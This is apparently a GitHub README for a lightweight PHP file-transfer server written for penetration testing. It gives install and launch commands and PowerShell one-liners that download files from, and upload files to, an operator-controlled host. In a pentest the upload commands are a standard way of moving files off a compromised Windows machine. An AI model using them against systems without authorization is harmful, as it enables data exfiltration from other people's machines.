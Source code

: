 # PHP Lightweight file transfer server

As part of my pentesting operations, I developed this PHP server which comes
as a replacement for the classic `python -m SimpleHTTPServer`, which lacks the
ability to upload files.

# Requirements

This has been tested in PHP 7.4 (CLI). Install it before use:

* In RPM-based distros (Fedora, RedHat, CentOS...): sudo dnf install php-cli
* In DEB-based distros (Ubuntu, Debian, **Kali**...): sudo apt install php-cli

# Usage

## Server launch

Launch using `php -c php.ini -S 0.0.0.0:<listening_port>`. If you use a
`listening_port` which value is less than 1024, [you must start the server using
sudo](https://unix.stackexchange.com/questions/16564/why-are-the-first-1024-ports-restricted-to-the-root-user-only).
You can do this for the classic port 80, so you don't need to specify ports
when calling the server URL. The `launch` script is programmed to do just that. 
You can use that for convenience.

## File downloads

You can browse the files using `http://<your_ip>`. All files have the following 
URL: `http://<your_ip>/files/<file_name>`. If you want to download a file using
Powershell, call:

```powershell
(New-Object System.Net.WebClient).DownloadFile(
  'http://<your_ip>/files/<file_name>', '<file_name>')
```

## File uploads

To upload files, call the root of the web server with `multipart/form-data` 
capabilities. For instance, using Powershell's `System.Net.WebClient`:

```powershell
(New-Object System.Net.WebClient).UploadFile('http://<your_ip>/', '<file_name>')
```

Alternatively, you can use:

```powershell
(New-Object System.Net.WebClient).UploadFile('http://<your_ip>/', (Get-Item '<file_name>').FullName)
```
